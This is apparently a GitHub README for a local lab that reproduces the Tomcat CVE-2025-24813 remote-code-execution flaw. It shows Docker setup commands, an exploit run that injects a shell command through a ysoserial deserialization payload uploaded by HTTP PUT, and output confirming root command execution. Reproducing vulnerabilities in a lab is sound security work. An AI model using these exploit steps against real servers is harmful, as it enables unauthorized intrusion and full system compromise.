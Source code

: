 Tomcat CVE-2025-24813 playground
================================
Exploit was forked from https://github.com/absholi7ly/POC-CVE-2025-24813/blob/main/README.md (did not work for me)

Setup
=====
Build and run the vulnerable tomcat installation
```
$ docker build -t tomcat-cve-2025-24813 .
$ docker run --name tomcat-cve-2025-24813 -it -d -p 8081:8080 tomcat-cve-2025-24813
```

Exploit
=======
```
$ python CVE_2025_24813.py --command 'bash -c echo${IFS}$(id)>/tmp/PWN'  http://localhost:8080

 ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ███████╗      ██████╗ ██╗  ██╗ █████╗  ██╗██████╗
██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██╔════╝      ╚════██╗██║  ██║██╔══██╗███║╚════██╗
██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████╗█████╗ █████╔╝███████║╚█████╔╝╚██║ █████╔╝
██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝██╔═══╝ ╚════██║██╔══██╗ ██║ ╚═══██╗
╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗███████║      ███████╗     ██║╚█████╔╝ ██║██████╔╝
 ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚══════╝      ╚══════╝     ╚═╝ ╚════╝  ╚═╝╚═════╝
                          ---=== TOMCAT RCE PKLAYGROUND by u238 ===---

[*] Session ID: u238
[+] Server is writable via PUT: http://localhost:8080/check.txt
[*] Generating ysoserial payload for command: bash -c echo${IFS}$(id)>/tmp/PWN
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8080/u238.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8080 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

Check (after exploit)
=====
```
$ podman exec tomcat-10.0.2-cve cat /tmp/PWN
uid=0(root) gid=0(root) groups=0(root)
```
